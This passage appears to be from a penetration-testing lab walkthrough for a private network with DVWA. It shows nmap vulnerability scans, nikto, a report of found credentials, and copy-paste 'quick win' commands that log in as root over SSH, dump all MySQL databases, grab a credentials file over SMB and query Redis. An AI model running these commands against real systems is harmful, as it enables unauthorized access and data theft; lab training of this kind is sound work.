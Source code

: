 ## Step 8: Vulnerability Scanning

```bash
# Scan for vulnerabilities
nmap --script vuln 172.16.0.30
nmap --script vuln 172.16.0.20
```

## Step 9: Web Application Scanning

```bash
# Scan DVWA
nikto -h http://172.16.0.30

# If you have OWASP ZAP or Burp installed
# You can proxy through them for more testing
```

## Step 10: Create Report

```bash
# Save all your findings
mkdir ~/evidence
nmap -sV -sC 172.16.0.20-110 -oN ~/evidence/full-scan.txt
echo "Credentials Found:" > ~/evidence/creds.txt
echo "root:toor (SSH 172.16.0.20)" >> ~/evidence/creds.txt
echo "admin:password (DVWA 172.16.0.30)" >> ~/evidence/creds.txt
echo "root:password123 (MySQL 172.16.0.50)" >> ~/evidence/creds.txt
```

---

## 🔥 Quick Win Commands (Copy & Paste)

### Get a quick shell on SSH server:
```bash
sshpass -p toor ssh root@172.16.0.20
```

### Quick MySQL dump:
```bash
mysqldump -h 172.16.0.50 -u root -ppassword123 --all-databases > mysql_dump.sql
```

### Quick SMB file grab:
```bash
smbclient //172.16.0.60/public -N -c "get credentials.txt"
```

### Quick Redis check:
```bash
redis-cli -h 172.16.0.80 -a redis123 CONFIG GET dir
```

---